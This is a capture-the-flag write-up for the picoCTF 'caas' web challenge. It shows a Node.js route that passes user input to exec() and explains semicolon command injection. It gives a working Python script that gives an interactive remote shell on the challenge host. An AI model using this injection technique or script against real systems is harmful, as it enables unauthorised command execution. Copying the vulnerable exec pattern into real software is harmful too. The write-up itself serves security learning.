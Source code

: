 # caas 
## picoctf web

[solve.py](solve.py)


### Its a web challenge from PicoCTF
We got a webpage with a input field which do cowsay commad with input value when input event is triggered.

## Vulnerable Code

```js
app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
 ```
 
 Here we can see exec is used which is one of the dangerous function and other factor is there is no input sanitation are used if a user wants to execute system commmads it becomes easy.

## POC

As we know about the vuln we can put a semi-colan ```;``` to gain arbitrary command execution

## Exploitaion

Here i Made a simple python script using cmd module
```python
import requests
import cmd

url = "https://caas.mars.picoctf.net/cowsay/hi;"

class Caas(cmd.Cmd):
	prompt = "(caas) => "

	def __init__(self):
		super(Caas, self).__init__()
		self.url = url 
		self.completedefault = None
	def default(self, args):
		if args in ['exit', 'EXIT', 'quit', 'QUIT']:
			exit()
		r = requests.get(self.url+str(args))
		print(r.text)

if __name__=='__main__':
	Caas().cmdloop()
```
